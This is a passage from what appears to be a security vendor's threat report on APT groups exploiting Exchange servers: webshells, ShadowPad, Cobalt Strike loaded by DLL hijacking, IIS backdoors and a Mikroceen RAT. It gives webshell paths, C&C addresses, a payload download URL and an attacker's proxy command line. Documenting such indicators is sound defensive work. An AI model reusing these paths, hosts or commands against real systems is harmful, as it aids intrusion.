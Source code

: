 On one of the compromised machines, the attacker used an LSAS dumper that was also previously used by Tonto Team.
Tonto Team is an APT group active since at least 2009 and targeting governments and institutions mostly based in Russia, Japan and Mongolia. For more than ten years, Tonto Team has been using the Bisonal RAT. Tonto Team is one of the APT groups that now has access to the ShadowPad backdoor.
Unattributed ShadowPad activity
Starting 2021-03-03, we observed the compromise of email servers at a software development company based in East Asia and a real estate company based in the Middle East where ShadowPad was dropped by the attacker and that we were not able to conclusively attribute to any known groups at the time of writing.
The attackers used C:\inetpub\wwwroot\aspnet_client\discover.aspx and C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\RedirSuiteServerProxy.aspx as first-stage webshells and dropped ShadowPad at the following locations:

C:\Windows\Help\mui\0109\mscoree.dll
C:\mscoree.dll

One of the ShadowPad samples uses soft.mssysinfo[.]xyz as its C&C address using the HTTPS protocol while the second sample uses ns.rtechs[.]org using the DNS protocol, which is less common.
The ShadowPad backdoor is a modular backdoor that was exclusive to the Winnti Group until the end of 2019. To the best of our knowledge, ShadowPad is now used by at least five additional groups: Tick, Tonto Team, KeyBoy, IceFog and TA428.
The “Opera” Cobalt Strike
On 2021-03-03 at 04:23 AM UTC, just a few hours after the patch was released, we noticed that another set of malicious activities had started. At this point we don’t know if these threat actors had access to the exploit beforehand or reverse engineered the patch. This corresponds to indicators that were published on Twitter and by FireEye, but we haven’t been able to link this set to any group we are already tracking.
From 2021-03-03 to 2021-03-05, ESET telemetry shows this activity targeting around 650 servers, mostly in the US, Germany, the UK and other European countries. Interestingly, this threat actor was consistent in the naming and location of their first-stage webshell, always using <Exchange_install_directory>\FrontEnd\HttpProxy\owa\auth\RedirSuiteServerProxy.aspx.
Then on a few selected machines, they executed a PowerShell script, shown in Figure 4, to download additional components from 86.105.18[.]116. The final payload is Cobalt Strike, which uses the same IP address for its C&C server. Cobalt Strike is loaded via DLL search-order hijacking against a legitimate Opera executable named opera_browser.exe (SHA-1: AB5AAA34200A3DD2276A20102AB9D7596FDB9A83) using a DLL named opera_browser.dll (SHA-1: 02886F9DAA13F7D9855855048C54F1D6B1231B0A) that decrypts and loads a shellcode from opera_browser.png (SHA-1: 2886F9DAA13F7D9855855048C54F1D6B1231B0A).  We noticed that 89.34.111[.]11 was also used to distribute malicious files.
Figure 4. PowerShell script used to download Cobalt Strike
IIS backdoors
Starting 2021-03-03, we observed that on four email servers located in Asia and South America, webshells were used to install so-called IIS backdoors.
We identified two different malware families:

A modified version of IIS-Raid. It comes from a PoC released on GitHub and documented last year by MDSec.
A variant of Owlproxy, which was documented last year by Cycraft as part of several incidents against Taiwanese governmental agencies.

Mikroceen
On 2021-03-04, the Mikroceen APT group compromised the Exchange server of a utility company in Central Asia, which is the region it mainly targets.
Mikroceen operators started by dropping webshells in C:\inetpub\wwwroot\aspnet_client\aspnet_regiis.aspx, <Exchange_install_directory>\FrontEnd\HttpProxy\owa\auth\aspnet_error.aspx and C:\inetpub\wwwroot\aspnet_client\log_error_9e23efc3.aspx. Then, they downloaded a payload we could not recover from http://46.30.188[.]60/webengine4.dll. We were not able to tie those first steps to Mikroceen with high confidence, but these indicators appeared only on the specific server where we saw the Mikroceen backdoors a few hours after.
A few hours later, a Mikroceen RAT was dropped in C:\Users\Public\Downloads\service.exe. Its C&C server is 172.105.18[.]72. Then, this RAT dropped additional tools such as Mimikatz (in C:\users\public\alg.exe), Mimikat_ssp (in  C:\users\public\Dump.exe) and a custom proxy (in c:\Users\Public\calcx.exe). The latter was executed with the following command line (exposing another attacker-controlled IP address):
calcx.exe  300 194.68.44[.]19 c:\users\public\1.log <private IP>:3128
